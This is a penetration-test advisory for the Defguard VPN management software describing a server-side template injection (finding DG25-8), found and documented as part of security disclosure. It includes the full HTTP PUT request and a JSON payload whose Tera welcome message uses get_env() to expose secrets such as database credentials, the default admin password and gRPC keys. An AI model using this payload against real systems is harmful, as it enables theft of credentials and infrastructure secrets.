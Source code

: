 ```yaml
---
title: "DG25-8: Server-Side Template Injection (SSTI)"
severity: Medium
cvss_score: 6.9
status: Completed
cvss_string: "CVSS:3.1/AV:N/AC:L/PR:H/UI:R/S:C/C:H/I:L/A:N"
issue_link: https://github.com/DefGuard/defguard/issues/1512
---
```


### Technical details

The vulnerability occurs due to improper validation of user-provided
Tera templates before rendering them. An attacker with administrative
access can craft a specially designed Tera template (enrollment
welcome-message) that, when processed by the server, extracts and
displays environment variables that contain sensitive information.

The exact mechanism involves the use of template syntax to access
environment variables, which are then rendered as part of the output.

Enrollment welcome-message with embedded Tera template get_env()
functions can be created either in the web application\'s UI:

![](/images/pentest/DG25/img1.png)

or directly by sending PUT request to the server:

**Request:**\
\
**PUT** /api/v1/settings **HTTP**/2\
**Host:** defguard.dvpnsec.net\
**Cookie:** defguard_session=zKvOID25Ytom8nansXbqP9W5\
**Content**-**Length:** 4410\
**Content**-**Type:** application/json\
**User**-**Agent:** **Mozilla**/5.0 (**Windows** **NT** 10.0; **Win64**;
x64) **AppleWebKit**/537.36 (**KHTML**, like **Gecko**)
**Chrome**/138.0.0.0 **Safari**/537.36\
**Origin:** https**://**defguard.dvpnsec.net\
**Referer:** https**://**defguard.dvpnsec.net/admin/enrollment\

```json
{
  "challenge_template": "Please read this carefully:\n\nClick to sign to prove you are in possesion of your private key to the account.\nThis request will not trigger a blockchain transaction or cost any gas fees.",
  "enrollment_use_welcome_message_as_email": true,
  "enrollment_vpn_step_optional": true,
  "enrollment_welcome_email": "Dear {{ first_name }} {{ last_name }},\n\nBy completing the enrollment process, you now have access to all company systems.\n\nYour login to all systems is: {{ username }}\n\n## Company systems\n\nHere are the most important company systems:\n\n- defguard: {{ defguard_url }} - where you can change your password and manage your VPN devices\n- our chat system: https://chat.example.com - join our default room #TownHall\n- knowledge base: https://example.com ...\n- our JIRA: https://example.atlassian.net...\n\n## Governance\n\nTo kickoff your onboarding, please get familiar with:\n\n- our employee handbook: https://knowledgebase.example.com/Welcome\n- security policy: https://knowledgebase.example.com/security\n\nIf you have any questions contact our HR:\nJohn Hary - mobile +48 123 123 123\n\nThe person that enrolled you is:\n{{ admin_first_name }} {{ admin_last_name }},\nemail: {{ admin_email }}\nmobile: {{ admin_phone }}\n\n--\nSent by defguard {{ defguard_version }}\nStar us on GitHub! https://github.com/defguard/defguard",
  "enrollment_welcome_email_subject": "[defguard] Welcome message after enrollment",
  "enrollment_welcome_message": "==== ENV: General ====\n\nPATH = {{ get_env(name=\"PATH\") }}\n\nHOSTNAME = {{ get_env(name=\"HOSTNAME\") }}\n\nHOME = {{ get_env(name=\"HOME\") }}\n\n\n\n==== ENV: Core Secrets ====\n\nDEFGUARD_AUTH_SECRET = {{ get_env(name=\"DEFGUARD_AUTH_SECRET\") }}\n\nDEFGUARD_GATEWAY_SECRET = {{ get_env(name=\"DEFGUARD_GATEWAY_SECRET\") }}\n\nDEFGUARD_YUBIBRIDGE_SECRET = {{ get_env(name=\"DEFGUARD_YUBIBRIDGE_SECRET\") }}\n\nDEFGUARD_SECRET_KEY = {{ get_env(name=\"DEFGUARD_SECRET_KEY\") }}\n\nDEFGUARD_DEFAULT_ADMIN_PASSWORD = {{ get_env(name=\"DEFGUARD_DEFAULT_ADMIN_PASSWORD\") }}\n\n\n\n==== ENV: Database Credentials ====\n\nDEFGUARD_DB_HOST = {{ get_env(name=\"DEFGUARD_DB_HOST\") }}\n\nDEFGUARD_DB_PORT = {{ get_env(name=\"DEFGUARD_DB_PORT\") }}\n\nDEFGUARD_DB_USER = {{ get_env(name=\"DEFGUARD_DB_USER\") }}\n\nDEFGUARD_DB_PASSWORD = {{ get_env(name=\"DEFGUARD_DB_PASSWORD\") }}\n\nDEFGUARD_DB_NAME = {{ get_env(name=\"DEFGUARD_DB_NAME\") }}\n\n\n\n==== ENV: URLs and Web Configuration ====\n\nDEFGUARD_URL = {{ get_env(name=\"DEFGUARD_URL\") }}\n\nDEFGUARD_ENROLLMENT_URL = {{ get_env(name=\"DEFGUARD_ENROLLMENT_URL\") }}\n\nDEFGUARD_PROXY_URL = {{ get_env(name=\"DEFGUARD_PROXY_URL\") }}\n\nDEFGUARD_WEBAUTHN_RP_ID = {{ get_env(name=\"DEFGUARD_WEBAUTHN_RP_ID\") }}\n\nDEFGUARD_COOKIE_INSECURE = {{ get_env(name=\"DEFGUARD_COOKIE_INSECURE\") }}\n\nDEFGUARD_LOG_LEVEL = {{ get_env(name=\"DEFGUARD_LOG_LEVEL\") }}\n\n\n\n==== ENV: GRPC Certificates and Keys ====\n\nDEFGUARD_GRPC_CERT = {{ get_env(name=\"DEFGUARD_GRPC_CERT\") }}\n\nDEFGUARD_GRPC_KEY = {{ get_env(name=\"DEFGUARD_GRPC_KEY\") }}\n\nDEFGUARD_PROXY_GRPC_CA = {{ get_env(name=\"DEFGUARD_PROXY_GRPC_CA\") }}\n\n\n\n==== ENV: OpenID Key ====\n\nDEFGUARD_OPENID_KEY = {{ get_env(name=\"DEFGUARD_OPENID_KEY\") }}\n",
  "gateway_disconnect_notifications_enabled": false,
  "gateway_disconnect_notifications_inactivity_threshold": 5,
  "gateway_disconnect_notifications_reconnect_notification_enabled": false,
  "instance_name": "Defguard",
  "ldap_bind_username": "cn=admin,dc=example,dc=org",
  "ldap_enabled": false,
  "ldap_group_member_attr": "uniqueMember",
  "ldap_group_obj_class": "groupOfUniqueNames",
  "ldap_group_search_base": "ou=groups,dc=example,dc=org",
  "ldap_groupname_attr": "cn",
  "ldap_is_authoritative": false,
  "ldap_member_attr": "memberOf",
  "ldap_sync_enabled": false,
  "ldap_sync_groups": [],
  "ldap_sync_interval": 300,
  "ldap_sync_status": "OutOfSync",
  "ldap_tls_verify_cert": true,
  "ldap_use_starttls": false,
  "ldap_user_auxiliary_obj_classes": [
    "simpleSecurityObject",
    "sambaSamAccount"
  ],
  "ldap_user_obj_class": "inetOrgPerson",
  "ldap_user_search_base": "ou=users,dc=example,dc=org",
  "ldap_username_attr": "cn",
  "ldap_uses_ad": false,
  "main_logo_url": "/svg/logo-defguard-white.svg",
  "nav_logo_url": "/svg/defguard-nav-logo.svg",
  "openid_create_account": true,
  "openid_enabled": true,
  "openid_username_handling": "RemoveForbidden",
  "smtp_encryption": "StartTls",
  "webhooks_enabled": true,
  "wireguard_enabled": true,
  "worker_enabled": true
}
```
\
\
**Response:**\
\
**HTTP**/2 200 **OK**\
**Alt**-**Svc:** h3=*\":443\"*; ma=2592000\
**Content**-**Type:** application/json\
**Date:** **Tue**, 05 **Aug** 2025 09**:**36**:**51 **GMT**\
**Server:** **Caddy**\
**X**-**Defguard**-**Version:** 1.5.0-a29ac10\
**Content**-**Length:** 4\
\
null

Once new user is created and his enrollment process finishes - he is
presented with leaked underlying infrastructure secrets (such as
database credentials or main admin password):

![](/images/pentest/DG25/img2.png)